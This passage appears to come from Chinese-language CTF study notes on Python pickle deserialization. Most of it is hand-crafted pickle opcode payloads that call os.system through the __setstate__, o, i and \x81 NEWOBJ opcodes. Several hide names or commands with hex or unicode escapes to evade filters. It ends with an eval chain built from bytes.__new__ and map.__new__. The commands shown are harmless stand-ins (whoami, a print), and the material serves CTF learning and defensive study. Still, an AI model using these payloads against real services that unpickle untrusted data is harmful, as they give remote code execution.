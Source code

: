 ```python
system
ubS"whoami"
b.'''

# 用i对类进行实例化
opcode=b'''(i__main__
Target
}(S"\\x5f\\x5f\\x73\\x65\\x74\\x73\\x74\\x61\\x74\\x65\\x5f\\x5f"
cos
system
ubS"whoami"
b.'''

# 协议2以上可以用\81 NEWOBJ对类进行实例化
opcode=b'''c__main__
Target)\81}(S"\\x5f\\x5f\\x73\\x65\\x74\\x73\\x74\\x61\\x74\\x65\\x5f\\x5f"
cos
system
ubS"whoami"
b.'''
```

#### load_obj (o)

```python
opcode=b'''(cos
system
V\u0077\u0068\u006F\u0061\u006D\u0069
o.'''
```



#### load_inst (i)

相当于`c` 和`o`的组合

```python
opcode=b'''(V\u0077\u0068\u006F\u0061\u006D\u0069
ios
system
.'''
```

#### load_newobj (\x81)

2022蓝帽杯中学到的技巧

[第六届“蓝帽杯”初赛CTF题目解析](https://mp.weixin.qq.com/s?__biz=MzkyNDA5NjgyMg==&amp;mid=2247493655&amp;idx=1&amp;sn=2eafc10949807487d993882220d05271&amp;chksm=c1d9a84ef6ae2158dac0f1e00fc04efd4e8a0966e16aaaf7a1c00e46ff1fa97b5f574d051721&amp;mpshare=1&amp;scene=23&amp;srcid=07134xssC34Apm45RHto6pPS&amp;sharer_sharetime=1657706356282&amp;sharer_shareid=bc030b6a5149970738c6328966d9421d#rd)

通过这这一串链来调用eval `bytes.__new__(bytes,map.__new__(map,eval,['print(11111)']))`
